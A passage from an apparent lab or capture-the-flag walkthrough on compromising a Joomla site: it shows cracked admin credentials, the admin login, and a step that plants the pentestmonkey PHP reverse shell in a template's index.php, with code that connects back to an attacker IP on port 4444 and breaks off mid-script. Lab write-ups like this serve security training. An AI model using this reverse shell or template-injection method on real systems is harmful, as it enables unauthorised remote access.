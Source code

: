 **Result:**

```
?:snoopy
```

Now we have credentials: `username="admin"`, `password="snoopy"`.

---

## Step 10 — Login to Joomla admin

Visit the admin page:

```
http://192.168.0.106/administrator/
```

Login with:

```text
Username: admin
Password: snoopy
```

You should see the Joomla dashboard.

---

## Step 11 — Inject a PHP reverse shell via template editor

Navigate in Joomla: `Extensions` → `Templates` → `Templates` → open a template (e.g., `templates2`). Edit `index.php` and replace its contents with a PHP reverse shell (example below). **(Only in your authorized lab.)**

**Reverse shell code (example):**

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.0.124';  // Change to your attacker IP
$port = 4444;  // Change to your listener port
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
  $pid = pcntl_fork();
  if ($pid == -1) { printit("ERROR: Can't fork"); exit(1); }
  if ($pid) { exit(0); }
  if (posix_setsid() == -1) { printit("Error: Can't setsid()"); exit(1); }
  $daemon = 1;
} else {
  printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) { printit("$errstr ($errno)"); exit(1); }

```